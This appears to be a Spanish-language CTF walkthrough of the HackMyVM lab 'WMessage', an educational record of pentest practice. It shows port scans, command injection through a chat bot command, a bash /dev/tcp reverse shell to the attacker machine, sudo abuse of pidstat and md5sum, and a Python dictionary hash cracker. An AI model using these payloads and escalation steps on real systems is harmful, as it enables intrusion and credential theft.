


# WMessage HackMyVM

- Ip atacante - 10.0.2.4
- Ip victima - 10.0.2.32

## Nmap
Realizamos el scaneo basico
```bash
❯ sudo nmap -Pn -sS -n --min-rate 5000 -p- 10.0.2.32   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-19 00:32 EDT
Nmap scan report for 10.0.2.32
Host is up (0.000091s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:5F:89:B9 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.75 seconds


❯ sudo nmap -Pn -sS -n --min-rate 5000 -A -p 22,80 10.0.2.32
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-19 00:40 EDT
Nmap scan report for 10.0.2.32
Host is up (0.00024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 628e95581eee94d1560ee551f5453843 (RSA)
|   256 45a87e567fdfb083656c886819a4866c (ECDSA)
|_  256 bc5424a60a8b6d34dca6ab8098ee1ff7 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
| http-title: Login
|_Requested resource was /login?next=%2F
|_http-server-header: Apache/2.4.54 (Debian)
MAC Address: 08:00:27:5F:89:B9 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.24 ms 10.0.2.32

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.62 seconds
```
## 80 http

Vemos que esta corriendo el puerto 22 y el puerto 80 es un login y tiene la opcion de registrarse.
Procedo a registrarme en la pagina



Esto nos lleva a una mensajeria y nos dice este mensaje
```
Master: Hi, This is finally working. I spent a month on this messaging system 
I hope there are no bugs in it. use !mpstat to get the status of the server.
```

Asi que rapidamente intente inyectar HTML y XSS pero no tuve exito. Al final se me dio por probar 
con el comando que nos dice 
``!mpstat``
```
Server: Linux 5.10.0-19-amd64 (MSG) 03/19/23 _x86_64_ (3 CPU) 04:45:32 
CPU %usr %nice %sys %iowait %irq %soft %steal %guest %gnice %idle 04:45:32 all 3.52 0.00 2.07 0.05 0.00 0.20 0.00 0.00 0.00 94.16 
```

Si le agregas un ``; <comando>`` al final seguido de un comando puedes realizar RCE.



## Reverse Shell

Enviando este mensaje me genero una shell ``!mpstat;bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'``


```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.32] 43408
bash: cannot set terminal process group (398): Inappropriate ioctl for device
bash: no job control in this shell
www-data@MSG:/$ 
```

Nos mejoramos la shell a una TTY

```bash
www-data@MSG:/$ script /dev/null -c bash
Script started, output log file is '/dev/null'.

www-data@MSG:/$ ^Z
zsh: suspended  nc -lvnp 443
                                                
❯ stty raw -echo;fg                   
[1]  + continued  nc -lvnp 443

www-data@MSG:/$ export TERM=xterm SHELL=bash
```

Dentro de ``/var/www`` encontramos un ROOTPASS
Actualmente no podemos leerlo, pero quiza nos sirva mas adelante

```bash
www-data@MSG:~$ ls -la
total 16
drwxr-xr-x  3 root     root     4096 Nov 21 19:05 .
drwxr-xr-x 12 root     root     4096 Nov 20 06:48 ..
-rw-r-----  1 root     root       12 Nov 21 19:00 ROOTPASS
drwxrwxr--  5 www-data www-data 4096 Nov 18 13:11 html
```

## Escalando a usuario

Scaneando un poco la maquina vemos que el usuario messagemaster puede correr pidstat
https://gtfobins.github.io/gtfobins/pidstat/

```bash
www-data@MSG:~$ sudo -l
Matching Defaults entries for www-data on MSG:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on MSG:
    (messagemaster) NOPASSWD: /bin/pidstat
```

Siguiendo los pasos de gtfobins

```bash
www-data@MSG:/$ sudo -u messagemaster /bin/pidstat -e /bin/sh -i
sudo -u messagemaster /bin/pidstat -e /bin/sh -i
Linux 5.10.0-19-amd64 (MSG) 	03/19/23 	_x86_64_	(3 CPU)

05:25:07      UID       PID    %usr %system  %guest   %wait    %CPU   CPU  Command
05:25:07     1000      1035    0.00    0.00    0.00    0.00    0.00     0  sh
/bin/sh: 0: can't access tty; job control turned off
$ www-data@MSG:/$ cd /home/messagemaster
$ id
uid=1000(messagemaster) gid=1000(messagemaster) groups=1000(messagemaster),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth)
```

### User flag

```bash
$ cat User.txt
*********************1b8d13d60ab
```

## Escalando a Root

```bash
$ sudo -l
Matching Defaults entries for messagemaster on MSG:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User messagemaster may run the following commands on MSG:
    (ALL) NOPASSWD: /bin/md5sum
```

Y aqui es donde interviene el ROOTPASS que encontramos antes. Como root corremos el md5sum para obtener un hash del ROOTPASS y despues descifrarlo

```bash
$ sudo -u root /bin/md5sum /var/www/ROOTPASS
**********************4a4b682f48  /var/www/ROOTPASS
```

### Python scripting

Intente de todas las manera en crackstation e intentandolo con John pero no llegue a nada

Despues de mucho tiempo me rendi y vi que otras personas habian creado un script en python para que recorra cada linea de john y lo compare con el hash

Para no simplemente copiar y no dar ideas de como hacer el script, podemos probar utilizando a ChatGPT como una herramienta mas que interesante para estos temas.

Despues de tener varias pruebas y errores logramos llegar a un script funcional y luego le agregamos barras de progreso y este fue el resultado

```python
❯ cat py.py     
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: py.py
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ import hashlib
   2   │ from tqdm import tqdm
   3   │ 
   4   │ # Abre el archivo de diccionario
   5   │ with open("/usr/share/wordlists/rockyou.txt", "r", encoding="ISO-8859-1") as f:
   6   │     # Cuenta el número total de líneas en el archivo
   7   │     total_lines = sum(1 for _ in f)
   8   │ 
   9   │ # Vuelve a abrir el archivo de diccionario
  10   │ with open("/usr/share/wordlists/rockyou.txt", "r", encoding="ISO-8859-1") as f:
  11   │     # Recorre línea por línea con una barra de progreso
  12   │     for line in tqdm(f, total=total_lines, desc="Probando contraseñas"):
  13   │         # Elimina el salto de línea al final
  14   │         password = line.strip()
  15   │         # Agrega el salto de línea al final
  16   │         password += '\n'
  17   │         # Calcula el hash MD5 de la contraseña
  18   │         hashed_password = hashlib.md5(password.encode()).hexdigest()
  19   │         # Compara con tu hash deseado
  20   │         if hashed_password == "**********************4a4b682f48":
  21   │             print("La contraseña es:", password.strip())
  22   │             break
  23   │     else:
  24   │         print("No se encontró ninguna coincidencia.")
  25   │ 
  26   │ 
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
```bash                                 
❯ python3 py.py
Probando contraseñas:  75%|█████████████████████████████████████████████████████████████████████████████████████▏                           | 10806985/14344392 [00:10<00:03, 962056.30it/s]
La contraseña es: ***********
Probando contraseñas:  75%|█████████████████████████████████████████████████████████████████████████████████████▎                           | 10827009/14344392 [00:10<00:03, 985126.32it/s]
```

### Root flag

```bash
❯ ssh root@10.0.2.32

root@MSG:~# ls
Root.txt
root@MSG:~# cat Root.txt
***********************34f8b8b0f
```